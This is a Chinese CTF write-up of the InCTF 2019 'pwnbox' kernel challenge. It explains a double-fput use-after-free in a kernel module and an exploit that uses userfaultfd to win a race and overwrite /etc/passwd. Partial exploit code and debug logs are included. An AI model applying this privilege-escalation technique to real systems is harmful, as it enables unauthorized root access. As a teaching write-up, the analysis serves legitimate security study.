

---

layout: post

title: 'InCTF Internationals 2019 pwnbox分析'

date: '2019-10-25'

header-img: "img/home-bg.jpg"

tags:
     - kernel pwn 
author: 'De4dCr0w'

---

<!-- more -->

### 环境配置

对rootfs.img解包修改
```
mkdir core
mv rootfs.img ./core/rootfs.cpio.gz 
cd core
gunzip rootfs.cpio.gz
cpio -idmv < rootfs.cpio
rm -rf rootfs.cpio
vim init
```
修改

setsid cttyhack setuidgid 0 /bin/sh 获得root权限，来获取/proc/kallsyms的信息

重新打包脚本：

```
#!/bin/sh
find . | cpio -o --format=newc > ../rootfs.img
```

调试时通过cat /sys/module/core/sections/.text获取驱动加载的基地址

本题获取命令如下：
/ # grep 0 /sys/module/mod/sections/.text
0xffffffffc0000000

在gdb调试时，add-symbol-file core.ko addr对基地址进行加载可调试

从bzImage中提取vmlinux，提取脚本如下：
https://github.com/torvalds/linux/blob/master/scripts/extract-vmlinux

./extract-vmlinux ./bzImage > vmlinux

### 基本知识点

#### dup2函数

```
dup2(oldfd, newfd)等效于
close(oldfd);
fcntl(oldfd, F_DUPFD, newfd);
F_DUPFD

与dup函数功能一样，复制由fd指向的文件描述符，调用成功后返回新的文件描述符，与旧的文件描述符共同指向同一个文件。

例：
fd = dup2(oldfd, fileno(stdout));
fd等于fileno(stdout)，指向oldfd对应的文件，此时终端输出的内容会重定向保存到oldfd指向的文件中。

```
fcntl系统调用可以用来对已打开的文件描述符进行各种控制操作以改变已打开文件的的各种属性

头文件为：

```
#include<unistd.h>
#include<fcntl.h>

int fcntl(int fd, int cmd);
int fcntl(int fd, int cmd, long arg);
int fcntl(int fd, int cmd ,struct flock* lock);

```

#### kcmp系统调用



kcmp检查两个进程的对应的文件描述符idx1和idx2是否指向同一个文件,相同返回0。

参考链接：https://www.cnblogs.com/zxc2man/p/7649240.html

#### MAP_PRIVATE | MAP_ANONYMOUS 映射

通过mmap指定私有匿名映射，不会立即分配这块内存，在实际访问这块内存才会通过userfaultfd进行分配操作

### 题目分析

fget()函数会调用 fget_unlocked()，获取struct file的文件描述符fd，并对引用计数f_count加1。

file 结构定义(sys/sys/file.h)：

```
170  struct file {
171  	void		*f_data;	/* file descriptor specific data */
172  	struct fileops	*f_ops;		/* File operations */
173  	struct ucred	*f_cred;	/* associated credentials. */
174  	struct vnode 	*f_vnode;	/* NULL or applicable vnode */
175  	short		f_type;		/* descriptor type */
176  	short		f_vnread_flags; /* (f) Sleep lock for f_offset */
177  	volatile u_int	f_flag;		/* see fcntl.h */
178  	volatile u_int 	f_count;	/* reference count */
179  	/*
180  	 *  DTYPE_VNODE specific fields.
181  	 */
182  	int		f_seqcount;	/* (a) Count of sequential accesses. */
183  	off_t		f_nextoff;	/* next expected read/write offset. */
184  	union {
185  		struct cdev_privdata *fvn_cdevpriv;
186  					/* (d) Private data for the cdev. */
187  		struct fadvise_info *fvn_advice;
188  	} f_vnun;
189  	/*
190  	 *  DFLAG_SEEKABLE specific fields
191  	 */
192  	off_t		f_offset;
193  	/*
194  	 * Mandatory Access control information.
195  	 */
196  	void		*f_label;	/* Place-holder for MAC label. */
197  };
```

漏洞点在于box_set 函数：

```
static int box_set(struct file *file, char *attr) {

...

  if (file->private_data) {
    encfile = fget((unsigned int)(unsigned long)file->private_data);
    f = check_encfile(encfile);
    if (!IS_ERR(f))
      fput(f);
    fput(encfile);           [2]  <--
  }

...

}

struct file *check_encfile(struct file *encfile) {
  if (!encfile)
    return ERR_PTR(-EBADF);

  if (encfile->f_op != &encBox_fops) {
    fput(encfile);          [1]  <--
    return ERR_PTR(-EINVAL);
  }
  return encfile;
}
```

关闭设备的大体流程

sys_close()->filp_close()->fput()->__fput()->release()，所以调用fput函数会调用到 __fput()函数，减少对文件的引用计数

在执行[2] 前调用了check_encfile，如果encfile->f_op != &encBox_fops条件成立，将会调用fput函数，所以一共调用了两次fput，引用计数f_count减少2，导致uaf漏洞。要满足该判断条件，只需要文件块不是由box_create分配出来的就行。

### Exp分析

利用方式借鉴于Project Zero的https://bugs.chromium.org/p/project-zero/issues/detail?id=808
(CVE-2016-4557)

```
int main(){

  mod_fd = open("/dev/mod", O_RDWR);
  if(mod_fd == -1)  errExit("open(/dev/mod)");
  //mod_fd = 3
  int box = box_new(mod_fd,0x1337); //box = 4
  printf("[*] box_new : %x \n",box);
  set_box(mod_fd,box);// <-- [0]
  close(box);

  uaf_fd = open("/home/user/ll", O_RDWR | O_CREAT);// uaf_fd = 4
  printf("uaf_fd : %x \n",uaf_fd);

  struct iovec  * iov = (struct iovec  *) init_userfaltfd();
  ssize_t writev_res = writev(uaf_fd,iov, 1);

  printf("[*] writev return : %lx\n",writev_res);
}
```

[1]处调用set_box函数，由于fd_3是由box_new申请得到，所以encfile->f_op = &encBox_fops，不进行fput操作。

iov = init_userfaltfd()函数返回的是MAP_ANONYMOUS属性的页地址，访问时会触发缺页错误。

通过ssize_t writev(int fd, const struct iovec *iov, int iovcnt);函数将iov地址上的内容写入uaf_fd对应的文件中。

函数调用链如下：writev->do_writev->vfs_writev->do_readv_writev

在vfs_writev函数中对文件的可写权限进行了判断，此时uaf_fd对应/home/user/ll文件，可通过判断。(正常/etc/passwd普通用户是不可写的)

```
ssize_t vfs_writev(struct file *file, const struct iovec __user *vec,
           unsigned long vlen, loff_t *pos, int flags)
{
    if (!(file->f_mode & FMODE_WRITE))
        return -EBADF;
    if (!(file->f_mode & FMODE_CAN_WRITE))
        return -EINVAL;

    return do_readv_writev(WRITE, file, vec, vlen, pos, flags);
}
```

在判断可写权限和执行写操作之间的窗口就是我们的条件竞争窗口。我们可以通过userfaultfd来对该竞争窗口进行攻击，达到暂停执行写操作的效果，延长攻击窗口。

在调用do_readv_writev时，会先将调用import_iovec函数从用户层复制iovec结构，之后再进行写操作。因为访问了用户层内存，所以触发了缺页错误，进入userfaltfd处理流程，在流程中执行pwn()函数触发漏洞，将uaf_fd指向/etc/passwd文件，并且通过ioctl(uffd, UFFDIO_COPY, &uffdio_copy)操作给iov地址上写入payload。

```
/**
 * import_iovec() - Copy an array of &struct iovec from userspace
 *     into the kernel, check that it is valid, and initialize a new
 *     &struct iov_iter iterator to access it.
**/
static ssize_t do_readv_writev()
{
    ...
    ret = import_iovec(type, uvector, nr_segs,
               ARRAY_SIZE(iovstack), &iov, &iter);
    ...
}
```

最后执行写操作，将iov上的内容写入/etc/passwd。

触发double-fput,形成UAF漏洞的过程如下：

```
void pwn(){

  int uaf_dup;
  printf("[*] pwning ...\n");
  int box = box_new(mod_fd,0x1337); //box = 6, 5分配给了 uffd = syscall(__NR_userfaultfd, O_CLOEXEC | O_NONBLOCK);
  printf("[*] new_box : %x \n",box);

  // trigger uaf
  printf("[*] trigger uaf\n");
  set_box(mod_fd,box); // <-- [1]

  uaf_dup = dup2(uaf_fd,box); // uaf_fd = 4, uaf_dup=6,此时同时指向fd_4的文件
  
  box = box_new(mod_fd,0x1337); //box = 7
  // trigger uaf
  set_box(mod_fd,box);// <-- [2]
  close(uaf_dup);

```

[1]处file->private_data为[0]处赋值的4，对fd_4文件描述符进行操作，引用计数先增1，后触发漏洞连续减去两次，此时fd_4的文件引用计数为1。通过dup2函数使得fd_6也指向fd_4文件，引用计数此时为2。[2]处调用set_box，触发漏洞，先增1，变成3后，又连续两次减去1，变成1。最后利用close函数令引用计数清零，此时文件块属于释放状态，但uaf_fd仍指向该文件块。

在exp中插桩输出调试信息：

```
static int box_set(struct file *file, char *attr) {
  int fd;
  struct file *f;
  struct file *encfile;
  PRINTK("[%d] before f_count: %d \n",count , file->f_count);

  PRINTK("set box:\n",count);
  if (copy_from_user(&fd, (char *)attr, sizeof(int)))
    return -EFAULT;

  PRINTK("fd: %d \n", fd);
  encfile = fget(fd);
  PRINTK("[%d] before encfile->f_count: %d \n",count , encfile->f_count);
  f = check_encfile(encfile);
  PRINTK("[%d] before1 encfile->f_count: %d \n",count , encfile->f_count);
  if (IS_ERR(f))
    return -EBADF;

  if (file->private_data) {
    PRINTK("[%d] file->private_data: %d \n",count, file->private_data);
    encfile = fget((unsigned int)(unsigned long)file->private_data);
    PRINTK("[%d] after encfile->f_count: %d \n",count , encfile->f_count);
    f = check_encfile(encfile);
    PRINTK("[%d] after1 encfile->f_count: %d \n",count , encfile->f_count);
    if (!IS_ERR(f))
      fput(f);
    fput(encfile);
    PRINTK("[%d] after2 encfile->f_count: %d \n",count, encfile->f_count);
  }

  count ++;
  file->private_data = (void *)(unsigned long)fd;
  return 0;
}
```

调试信息如下：

```
 5.338920] Debug: ioctl : 1337
[    5.338920] file ptr : ffff880002b71300
[    5.338920] Debug: create box:
[    5.339595] Debug: ioctl : 133b
[    5.339595] file ptr : ffff880002b71300
[    5.339596] Debug: [0] before f_count: 1 
[    5.339596] Debug: set box:
[    5.339596] Debug: fd: 4 
[    5.339597] Debug: [0] before encfile->f_count: 2 
[    5.339597] Debug: [0] before1 encfile->f_count: 2 
[    5.348729] Debug: ioctl : 1337
[    5.348729] file ptr : ffff880002b71300
[    5.348733] Debug: create box:
[    5.352800] Debug: ioctl : 133b
[    5.352800] file ptr : ffff880002b71300
[    5.352801] Debug: [1] before f_count: 2 
[    5.352802] Debug: set box:
[    5.352802] Debug: fd: 6 
[    5.352803] Debug: [1] before encfile->f_count: 2 
[    5.352803] Debug: [1] before1 encfile->f_count: 2 
[    5.352803] Debug: [1] after encfile->f_count: 3 
[    5.352804] Debug: [1] after1 encfile->f_count: 2 
[    5.352804] Debug: [1] after2 encfile->f_count: 1 
[    5.353501] Debug: ioctl : 1337
[    5.353501] file ptr : ffff880002b71300
[    5.353501] Debug: create box:
[    5.353974] Debug: ioctl : 133b
[    5.353974] file ptr : ffff880002b71300
[    5.353974] Debug: [2] before f_count: 2 
[    5.353975] Debug: set box:
[    5.353975] Debug: fd: 7 
[    5.353975] Debug: [2] before encfile->f_count: 2 
[    5.353976] Debug: [2] before1 encfile->f_count: 2 
[    5.353976] Debug: [2] after encfile->f_count: 3 
[    5.353976] Debug: [2] after1 encfile->f_count: 2 
[    5.353976] Debug: [2] after2 encfile->f_count: 1 
[    5.360856] VFS: Close: file count is 0
[    5.361943] VFS: Close: file count is 0

```

后续的操作就是通过不断地open("/etc/passwd")，利用kcmp系统调用进行比较，判断是否申请到了之前释放的文件块。如果成功申请到，此时uaf_fd就指向了/etc/passwd文件，可以通过操作uaf_fd对/etc/passwd进行操作。

### 参考链接

https://blog.bi0s.in/2019/10/11/Pwn/Kernel-Exploitation/pwnbox_md/

https://secfault-security.com/blog/FreeBSD-SA-1902.fd.html

https://ruxcon.org.au/assets/2016/slides/ruxcon2016-Vitaly.pdf

https://blog.lizzie.io/using-userfaultfd.html

https://bugs.chromium.org/p/project-zero/issues/detail?id=808